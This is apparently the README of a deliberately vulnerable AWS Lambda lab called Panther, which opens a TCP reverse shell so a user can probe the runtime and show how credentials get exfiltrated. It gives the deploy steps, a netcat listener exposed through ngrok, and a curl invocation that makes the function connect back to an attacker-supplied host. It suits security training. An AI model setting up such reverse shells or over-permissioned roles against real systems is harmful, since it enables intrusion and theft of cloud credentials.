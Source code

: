# Puma Prey Panther

Panther is a Node.js function that can be deployed to the AWS to establish a TCP reverse shell for the purposes of introspecting the Lambda container runtime.

## Installing Prerequisites

* [AWS Command Line Interface](https://aws.amazon.com/cli/)
* [Node.js v14.15.4 / NPM](https://nodejs.org/en/download/)

## Deploying The Function and Resources

```bash
cd /PATH/TO/panther
aws configure
npm install

# AWS profile to use
export AWS_PROFILE=default

# Optional: Run the Lambda in a VPC.
export IN_VPC=true

# Optional: Create protected S3 bucket that the Lambda execution role has access to.
export WITH_BUCKET=true
export BUCKET_SUFFIX=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.

npx serverless deploy
```

Record the API key provided in the output:

```bash
Serverless: Stack update finished...
Service Information
service: panther
stage: dev
region: us-east-1
stack: panther-dev
resources: 14
api keys:
  panther: YOUR_API_KEY
```

In addition to deploying the function, if `WITH_BUCKET=true` and `BUCKET_SUFFIX` is set, this will create a private S3 Bucket with an image. The Lambda role will have unnecessary permissions to access these resources as well as to an AWS Parameter Store path to demonstrate the damage that can be done by exfiltrating credentials from the runtime environment.

To store a secret in the aforementioned Parameter Store path, run the following:

```bash
aws ssm put-parameter --name /panther/database/user --value "panther_user" --type SecureString
aws ssm put-parameter --name /panther/database/password --value "RG9ncyBhcmUgb3VyIGxpbmsgdG8gcGFyYWRpc2UuIFRoZXkgZG9uJ3Qga25vdyBldmlsIG9yIGplYWxvdXN5IG9yIGRpc2NvbnRlbnQu" --type SecureString
```

## Testing in AWS

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/panther --url-id YOUR_API_GATEWAY_ID --api-key YOUR_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Invoke your function, supplying your connection details and API key:

```bash
curl "https://YOUR_API_GATEWAY_ID.execute-api.$AWS_REGION.amazonaws.com/dev/api/Panther?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER" -H 'X-API-Key: YOUR_API_KEY'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file, though it cannot be extended past 30 seconds as it is attached to an API Gateway.

## Teardown

```bash
npx serverless remove
```

## Running Locally

```bash
npm start
```

## Testing Locally

```bash
curl 'http://localhost:3000/api/Panther?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'x-api-key: offlineKey'
```

## Linting

```bash
npm run lint
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Panther.

## Serverless AWS NodeJS Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template aws-nodejs --path panther
```

## Exploring Serverless

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/aws/) for more information.
